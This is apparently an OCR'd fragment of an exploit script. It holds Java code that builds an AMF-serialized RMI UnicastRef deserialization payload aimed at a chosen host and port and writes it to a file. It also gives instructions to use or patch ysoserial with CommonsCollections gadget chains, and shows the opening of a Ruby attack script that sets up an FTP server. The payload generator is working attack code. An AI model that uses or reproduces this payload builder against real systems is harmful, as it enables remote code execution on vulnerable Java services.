 ```rb
        try {
            byte[] amf = new byte[0];
            amf = serialize((unicastRef));
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[2]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[2]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static Object generateUnicastRef(String host, int port) {
        java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
        sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
        sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
        return new sun.rmi.server.UnicastRef(liveRef);
    }
    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
    }
}
===
ysoserial.jar:
- Use the multiarg branch of https://github.com/frohoff/ysoserial
- Or patch ysoserial with CommonsCollections5Chained and CommonsCollections6Chain from https://github.com/frohoff/ysoserial/issues/71
===
=end
require 'ftpd'
require 'tmpdir'
require 'net/http'
require 'uri'
class String
	def black;          "\e[30m#{self}\e[0m" end
	def red;            "\e[31m#{self}\e[0m" end
	def green;          "\e[32m#{self}\e[0m" end
	def brown;          "\e[33m#{self}\e[0m" end
	def blue;           "\e[34m#{self}\e[0m" end
	def magenta;        "\e[35m#{self}\e[0m" end
	def cyan;           "\e[36m#{self}\e[0m" end
	def gray;           "\e[37m#{self}\e[0m" end
	def bg_black;       "\e[40m#{self}\e[0m" end
	def bg_red;         "\e[41m#{self}\e[0m" end
	def bg_green;       "\e[42m#{self}\e[0m" end
	def bg_brown;       "\e[43m#{self}\e[0m" end
	def bg_blue;        "\e[44m#{self}\e[0m" end
	def bg_magenta;     "\e[45m#{self}\e[0m" end
	def bg_cyan;        "\e[46m#{self}\e[0m" end
	def bg_gray;        "\e[47m#{self}\e[0m" end
	def bold;           "\e[1m#{self}\e[22m" end
	def italic;         "\e[3m#{self}\e[23m" end
	def underline;      "\e[4m#{self}\e[24m" end
	def blink;          "\e[5m#{self}\e[25m" end
	def reverse_color;  "\e[7m#{self}\e[27m" end
end
```